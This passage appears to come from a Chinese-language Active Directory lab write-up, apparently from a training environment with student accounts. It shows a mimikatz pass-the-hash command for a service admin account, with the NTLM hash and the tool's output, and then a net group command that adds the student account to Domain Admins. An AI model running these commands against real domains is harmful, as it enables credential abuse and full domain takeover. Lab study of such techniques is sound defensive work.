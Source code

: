   .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c6979
4a4d8 /run:powershell.exe
user    : svcadmin
domain  : dollarcorp.moneycorp.local
program : powershell.exe
impers. : no
NTLM    : b38ff50264b74508085d82c69794a4d8
  |  PID  3104
  |  TID  4864
  |  LSA Process is now R/W
  |  LUID 0 ; 41299079 (00000000:02762c87)
  \_ msv1_0   - data copy @ 0000028946288B00 : OK !
  \_ kerberos - data copy @ 0000028946AF9928
   \_ aes256_hmac       -> null
   \_ aes128_hmac       -> null
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 0000028946B47AF8 (32) -> null

PS C:\ad>
```


新开的shell
```
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
dcorp\student366
```


在新开的shell里把当前账号添加进Domain Admins组中
```
PS C:\Windows\system32> net group "Domain Admins" student366 /ADD /DOMAIN
The request will be processed at a domain controller for domain dollarcorp.moneycorp.local.
